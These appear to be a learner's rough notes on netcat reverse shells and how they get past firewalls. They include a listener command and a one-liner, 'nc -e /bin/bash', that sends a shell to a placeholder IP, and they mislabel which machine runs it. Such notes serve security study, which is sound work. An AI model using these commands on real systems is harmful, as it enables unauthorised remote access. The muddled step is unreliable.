 -> target computer -> network swiss army knife 
-> outside of home network 
-> remote access to the computer 
-> Target connects to us - instead of we connecting to target . to bypass firewall (protects the network )
-> why firewall blocks anything that going in through it . but allows anything going out of it 
-> nc - ie: netcat , need in both device 
things are bit backwords as reverse shell 
-> we need to listen - the conncetion form target 
CMD - nc -lnvp 87 -s ipadress 
l - listining , n - ip adress , v - verbous , p - port s - source 
at attacker - nc -e /bin/bash ipadress port 
https://www.revshells.com/
![[Pasted image 20250604002258.png]] IP - my ip 
